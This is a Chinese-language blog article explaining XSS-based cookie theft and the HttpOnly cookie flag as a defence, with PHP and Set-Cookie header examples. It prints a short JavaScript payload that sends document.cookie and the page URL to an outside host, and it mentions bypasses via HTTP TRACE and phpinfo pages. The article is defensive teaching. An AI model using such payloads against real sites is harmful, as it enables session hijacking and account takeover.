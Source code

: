[原文链接](http://kb.cnblogs.com/page/115136/)
	随着www服务的兴起，越来越多的应用程序转向了B/S结构，这样只需要一个浏览器就可以访问各种各样的web服务，但是这样也越来越导致了越来越多的web安全问题。www服务依赖于Http协议实现，Http是无状态的协议，所以为了在各个会话之间传递信息，就不可避免地用到Cookie或者Session等技术来标记访问者的状态，而无论是Cookie还是Session，一般都是利用Cookie来实现的(Session其实是在浏览器的Cookie里带了一个Token来标记，服务器取得了这个Token并且检查合法性之后就把服务器上存储的对应的状态和浏览器绑定)，这样就不可避免地安全聚焦到了Cookie上面，只要获得这个Cookie，就可以取得别人的身份，这对于入侵者是一件很美妙的事情，特别当获得的Cookie属于管理员等高权限身份者时，危害就更大了。在各种web安全问题里，其中xss漏洞就因此显得格外危险。
	对于应用程序来说，一旦存在了xss漏洞就意味着别人可以在你的浏览器中执行任意的js脚本，如果应用程序是开源的或者功能是公开的话，别人就可以利用ajax使用这些功能，但是过程往往很烦琐，特别是想直接获得别人身份做随意浏览的话困难就更大。而对于不开源的应用程序，譬如某些大型站点的web后台(web2.0一个显著的特征就是大量的交互，用户往往需要跟后台的管理员交互，譬如Bug汇报，或者信息投递等等)，尽管因为交互的存在可能存在跨站脚本漏洞，但是因为对后台的不了解，无法构造完美的ajax代码来利用，即使可以用js取得后台的代码并回传分析，但是过程同样烦琐而且不隐蔽。这个时候，利用xss漏洞获得Cookie或者Session劫持就很有效了，具体分析应用程序的认证，然后使用某些技巧，甚至可以即使对方退出程序也一样永久性获得对方的身份。
	那么如何获得Cookie或者Session劫持呢?在浏览器中的document对象中，就储存了Cookie的信息，而利用js可以把这里面的Cookie给取出来，只要得到这个Cookie就可以拥有别人的身份了。一个很典型的xss攻击语句如下：
````  
　　xss exp:
　　url=document.top.location.href;
　　cookie=document.cookie;
　　c=new Image();
　　c.src=’http://www.loveshell.net/c.php?c=’+cookie+’&u=’+url;
````  

　　一些应用程序考虑到这个问题所在，所以可能会采取浏览器绑定技术，譬如将Cookie和浏览器的User-agent绑定，一旦发现修改就认为Cookie失效。这种方法已经证明是无效的，因为当入侵者偷得Cookie的同时他肯定已经同时获得了User-agent。还有另外一种比较严格的是将Cookie和Remote-addr相绑定(其实就是和IP绑定，但是一些程序取得IP的方法有问题一样导致饶过)，但是这样就带来很差的用户体验，更换IP是经常的事，譬如上班与家里就是2个IP，所以这种方法往往也不给予采用。所以基于Cookie的攻击方式现在就非常流行，在一些web 2.0站点很容易就取到应用程序的管理员身份。
　　
	如何保障我们的敏感Cookie安全呢?通过上面的分析，一般的Cookie都是从document对象中获得的，我们只要让敏感Cookies浏览器document中不可见就行了。很幸运，现在浏览器在设置Cookie的时候一般都接受一个叫做HttpOnly的参数，跟domain等其他参数一样，一旦这个HttpOnly被设置，你在浏览器的document对象中就看不到Cookie了，而浏览器在浏览的时候不受任何影响，因为Cookie会被放在浏览器头中发送出去(包括ajax的时候)，应用程序也一般不会在js里操作这些敏感Cookie的，对于一些敏感的Cookie我们采用HttpOnly，对于一些需要在应用程序中用js操作的cookie我们就不予设置，这样就保障了Cookie信息的安全也保证了应用。关于HttpOnly说明可以参照 http://msdn2.microsoft.com/en-us/library/ms533046.aspx。

　　给浏览器设置Cookie的头如下：
````  
	Set-Cookie: =[; =]
　　[; expires=][; domain=]
　　[; path=][; secure][; HttpOnly]
````     　　

以php为例，在php 5.2版本时就已经在Setcookie函数加入了对HttpOnly的支持，譬如：
````    
	setcookie("abc","test",NULL,NULL,NULL,NULL,TRUE);
````    
　　
	就可以设置abc这个cookie，将其设置为HttpOnly，document将不可见这个Cookie。因为setcookie函数本质就是个header，所以一样可以使用header来设置HttpOnly。然后再使用document.cookie就可以看到已经取不到这个Cookie了。我们用这种方法来保护利例如Sessionid，如一些用于认证的auth-cookie，就不用担心身份被人获得了，这对于一些后台程序和webmail提升安全性的意义是重大的。再次使用上面的攻击手法时可以看到，已经不能获取被我们设置为HttpOnly的敏感Cookie了。
	但是，也可以看到HttpOnly并不是万能的，首先它并不能解决xss的问题，仍然不能抵制一些有耐心的黑客的攻击，也不能防止入侵者做ajax提交，甚至一些基于xss的proxy也出现了，但是已经可以提高攻击的门槛了，起码xss攻击不是每个脚本小子都能完成的了，而且其他的那些攻击手法因为一些环境和技术的限制，并不像Cookie窃取这种手法一样通用。
	HttpOnly也是可能利用一些漏洞或者配置Bypass的，关键问题是只要能取到浏览器发送的Cookie头就可以了。譬如以前出现的Http Trace攻击就可以将你的Header里的Cookie回显出来，利用ajax或者flash就可以完成这种攻击，这种手法也已经在ajax和flash中获得修补。另外一个关于配置或者应用程序上可能Bypass的显著例子就是phpinfo，大家知道phpinfo会将浏览器发送的http头回显出来，其中就包括我们保护的auth信息，而这个页面经常存在在各种站点上，只要用ajax取phpinfo页面，取出header头对应的部分就可以获得Cookie了。一些应用程序的不完善也可能导致header头的泄露，这种攻击方式对于basic验证保护的页面一样可以攻击。
	HttpOnly在IE 6以上，Firefox较新版本都得到了比较好的支持，并且在如Hotmail等应用程序里都有广泛的使用，并且已经是取得了比较好的安全效果。
